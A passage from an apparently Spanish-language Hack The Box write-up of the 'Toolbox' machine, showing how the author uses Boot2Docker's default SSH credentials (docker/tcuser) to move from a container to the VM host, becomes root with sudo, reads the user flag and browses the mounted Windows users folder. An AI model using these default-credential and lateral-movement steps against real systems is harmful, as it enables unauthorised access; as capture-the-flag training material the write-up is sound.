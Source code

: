 Docker Toolbox usa VirtualBox para correr una VM que contiene el contenedor. Esto se consigue usando [Boot2Docker](https://github.com/boot2docker/boot2docker#ssh-into-vm). Mirando la documentación encontramos credenciales por defecto `docker / tcuser` para conectarte por ssh al host

<img src="/assets/HTB/Toolbox/ssh.png">

Saviendo que la IP del contenedor donde nos econtramos es `172.17.0.2` podemos dedeucir que la IP del host de VM es `172.17.0.1`. Vamos a probar a conectarnos por SSH usando las credenciales por defecto

```bash
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
docker@172.17.0.1's password: 
   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$
```

Nos convertimos en root y con una búsqueda recursiva desde la raíz localizamos la flag de usuario

```bash
docker@box:/$ sudo su                                                                                                                                                                     
root@box:/# find / -name user.txt 2>/dev/null  
/mnt/sda1/var/lib/docker/overlay2/07623502c61c6209351069a7c272a5514f193c50302d83ead62325346bf41d06/merged/var/lib/postgresql/user.txt
/mnt/sda1/var/lib/docker/overlay2/20aed3bef7110c6e08a7fc7f476fcdf690589baabf19f49b462b7395724731d2/diff/var/lib/postgresql/user.txt
root@box:/# cat /mnt/sda1/var/lib/docker/overlay2/07623502c61c6209351069a7c272a5514f193c50302d83ead62325346bf41d06/merged/var/lib/postgresql/user.txt                                     
f0183e44378ea9774***************  flag.txt
```

De acuerdo a la documentación, docker-toolbox tiene acceso al directorio `C:\Users` por defecto el cual está montado en `/c/users`

```bash
docker@box:~$ cd /c/Users                                                                                                                                                                 
docker@box:/c/Users$ ls                                                                                                                                                                   
Administrator  Default        Public         desktop.ini
All Users      Default User   Tony
```
